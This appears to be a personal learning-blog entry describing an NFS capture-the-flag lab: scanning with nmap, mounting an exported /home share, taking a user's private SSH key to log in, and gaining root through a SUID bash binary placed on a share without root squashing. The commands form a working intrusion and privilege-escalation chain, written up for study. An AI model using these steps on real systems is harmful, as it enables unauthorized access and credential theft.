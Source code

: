 ```yaml
---
title: Day 15
date: 2022-04-28
layout: post.njk
tags: daily
---
```


{{ page.date.toDateString }}

I wanted to knock out a module this morning, but I was busy with work again so I'm not getting to this until later.

The first section is about NFS or [Network File System](https://en.wikipedia.org/wiki/Network_File_System). It just goes over the protocol at a high level but there are more details [here](https://docs.oracle.com/cd/E19683-01/816-4882/6mb2ipq7l/index.html).

I thought this was an interesting section in the reading:
> If someone wants to access a file using NFS, an you send a RPC call to NFSD (the NFS daemon) on the server. This call takes parameters such as:
> - The file handle
> - The name of the file you want to access
> - The user's, user ID
> - The user's group ID
> NFS uses these parameters in determining access rights to the specified file. This is what controls user permissions, I.E read and write of files.

How do you pass the parameters into the call? Can you fake the parameters? How does the authentication work? I'm guessing most of the exploitations will center around misconfigurations, but I'm curious how it works at a low level.

Here are some more useful links:

- [datto](https://www.datto.com/blog/what-is-nfs-file-share)
- [Sourceforge](http://nfs.sourceforge.net/)
- [Arch Linux](https://wiki.archlinux.org/title/NFS)

All the questions were easy and in the reading except for the question: what was the most recent version of NFS which I googled and got the answer on Wikipedia.


In the enumeration phase of NFS I first learned about [nfs-common](https://packages.ubuntu.com/bionic/nfs-common).

I first ran a port scan to see what ports are open I ran `nmap -sS <ip> -p-` I ran `-sS` to get information about the services running on the open ports.
I'm not sure if its the box but anytime I run a scan with -p- it's crazy slow.

Ok so that scan was going crazy slow it I changed it to:
> `nmap -sT <ip> -p 1-10000`

and I did it in chunks of 10000 and the results came back almost instantly. I did this up to 65535 and I figured out that there were 7 open ports and the NFS service was running on 2049.

I ran:
> `nmap -sS 10.10.86.162 -p 2049`
>
>`Starting Nmap 7.60 ( https://nmap.org ) at 2022-04-29 03:04 BST`

>`Nmap scan report for ip-10-10-86-162.eu-west-1.compute.internal (10.10.86.162)`

>`Host is up (0.00022s latency).`
>
>`PORT     STATE SERVICE`

>`2049/tcp open  nfs`

>`MAC Address: 02:67:85:2B:62:2F (Unknown)`
>
>`Nmap done: 1 IP address (1 host up) scanned in 0.55 seconds`

Not a ton of info there.

I ran:
>`$ /usr/sbin/showmount -e 10.10.86.162`
>
>`Export list for 10.10.86.162:`
>
>`/home *`

I ran:

>`$ sudo mount -t nfs 10.10.86.162:/home /tmp/mount -nolock`
> 
>`$ cd /tmp/mount`
>
>`$ ls`
>
>`cappucino`

That directory appeared to be a home directory for a user. It contained a .ssh file with an `id_rsa`. I copied that file out, changed the permissions to `600` and logged in via SSH using

>`ssh -i id_rsa cappucino@<ip>`.

Last part is exploiting NFS!

The reading talks about Root Squashing and the creation of SUID bit files.

I downloaded the corresponding bash shell from this [GitHub](https://github.com/TheRealPoloMints/Blog/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash). I copied it into the mounted directory. I changed the owner to root via:

>`$ chown root bash`

I added the SUID permission via:
>`$ chmod +sx bash`

>`# ls -l bash`
>
>`-rwsr-sr-x 1 root root 1113504 Apr 29 03:25 bash`

Lastly in the ssh session I ran:

> `./bash -p`

the -p flag maintains the permissions of the file.

I then got root and got the flag in the root directory!

This was a great section of the module. I picked up a ton here, and I'm looking forward to the next two sections of this module.